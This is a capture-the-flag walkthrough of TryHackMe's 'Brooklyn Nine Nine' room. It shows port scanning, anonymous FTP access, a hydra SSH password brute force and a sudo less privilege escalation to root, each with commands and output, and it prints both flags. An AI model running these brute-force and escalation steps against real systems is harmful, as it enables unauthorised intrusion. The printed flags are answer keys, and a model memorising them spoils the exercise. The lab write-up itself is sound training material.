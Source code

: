 # Brooklyn Nine Nine

{% embed url="https://tryhackme.com/room/brooklynninenine" %}

##

## Task 1: Deploy and get hacking

<figure><img src="../../.gitbook/assets/1 (26).png" alt=""><figcaption></figcaption></figure>

### User flag

* First, let's scan the target using `nmap`.

```
$ nmap -sC -sV 10.10.255.141
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-06 21:01 IST
Nmap scan report for 10.10.255.141
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.48.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.98 seconds
```

* There are three open ports:

| Port | Service |
| ---- | ------- |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

* Let's scan all the directories using `gobuster`.

```
$ gobuster dir -u http://10.10.255.141 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.141
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 718]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

* There seems to be nothing of interest in the web directories.
* Let's login anonymously through FTP.

```
$ ftp anonymous@10.10.255.141
Connected to 10.10.255.141.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

* Let's check out the contents of this directory.

```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```

* We can download the `note_to_jake.txt` file to our machine using the `get` command.

```
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |***********************************************************************************************************************************************************************************************|   119       22.82 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.85 KiB/s)
```

* Let's check what is in the `note_to_jake.txt` file.

```
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

* The only service remaining is SSH. That means that the user `jake` has a weak SSH password.
* Using `hydra`, we can brute force the password.

```
$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.255.141 -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-06 21:56:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.255.141:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.255.141   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-06 21:59:14
```

* Now we know that for the user `jake`, the password is `987654321`.
* Let's login through SSH using these credentials.

```
$ ssh jake@10.10.255.141            
The authenticity of host '10.10.255.141 (10.10.255.141)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.88.195' (ED25519) to the list of known hosts.
jake@10.10.255.141's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```

* Let's go to the user `holt`.

```
jake@brookly_nine_nine:~$ cd ..
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd holt/
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
```

* We can now get the user flag.

```
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```

### Answer

```
ee11cbb19052e40b07aac0ca060c23ee
```

###

### Root flag

* Let's check what `sudo` privileges the `jake` has.

```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

* We can got to [GTFOBins](https://gtfobins.github.io/) to find an exploit for the `less` binary.&#x20;

<figure><img src="../../.gitbook/assets/2 (31).png" alt=""><figcaption></figcaption></figure>

* Copy and paste the `Sudo` exploit in the terminal.

```
jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile
# 
```

* You will have to press `ENTER` once again after entering the command.

```
# cd root       
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

### Answer

```
63a9f0ea7bb98050796b649e85481845
```
